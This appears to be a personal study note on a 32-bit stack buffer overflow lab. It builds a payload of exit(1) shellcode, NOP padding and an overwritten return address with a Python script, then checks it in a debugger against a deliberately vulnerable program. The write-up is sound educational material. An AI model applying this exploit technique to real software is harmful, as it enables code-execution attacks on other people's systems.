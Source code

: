 
Because we can, lets do both!
#### Snipe method
Let’s outline the steps of our creating the snipe shell code:
- insert `exit 01` shell code (`\x31\xc0\x40\x89\xc3\xcd\x80`) into the `buffer`
- insert `NOP`’s (`\x90`) to pad the remaining 1 byte and also pad the `sfp`
	- we don’t really need to do anything with the `sfp`, we’re just padding it so we can get to the `rip`.
- redirect the rip to the start our buffer at `0xffffcde8`

Of course we can just write the bytes in the terminal directly to `payload`, but for the purpose of re-usability lets do it in `python`:

``` python
import struct

# we want to write past the sfp and change rip
nop = "\x90"
buf_addr = 0xffffcde8
redirect = struct.pack("<I", buf_addr)
exit_one = b"\x31\xc0\x40\x89\xc3\xcd\x80" 

payload = exit_one + (nop * 5) + redirect

with open("payload", "wb") as f:
	f.write(payload)
```

Our final `payload` should look like something like this in bytes:
`\x31\xc0\x40\x89\xc3\xcd\x80 \x90\x90\x90\x90\x90 \xe8\xcd\xff\xff`
- the python `struct.pack()` simply packs the `buf_addr` in bytes, and as you may have already guessed (or you already knew about that, idk), the `"<I"` specifies it to be in little-endian format.
- note that the spaces shouldn’t be there, I’m just adding those in to make it readable to humans.

now let’s rerun `vuln` with the payload automatically inserted when it asks for input with `r < payload`

I set a break point at the part right before the `esp` is incremented to deallocate the stack frame for `vuln`, so we can look at the stack from the esp at that point:
![[Pasted image 20240223092540.png]]

as we can see, the buffer starting at `0xffffcde8` already has the `exit(1)` shell code. It has been padded with a `nop` (`\x90`), but that will be fine since its in little-endian format. The `rip` at `0xffffcdf4` has also been redirected to  `0xffffcde8`, which will be executed (since we turned off write/execute protection in our compiler flags).

Looking at our `disas vuln`, the next instructions will be
- `0x56556190 <+19>:	leave` → move `esp` to `ebp` and pop `sfp` (which we have set to `0x90909090`) making the `ebp` store `0x90909090`. we can confirm this in the next instruction when we look at `info registers`. 
- `0x56556191 <+20>:	ret` → pop `rip` and continue execution.

![[Pasted image 20240223093558.png]]
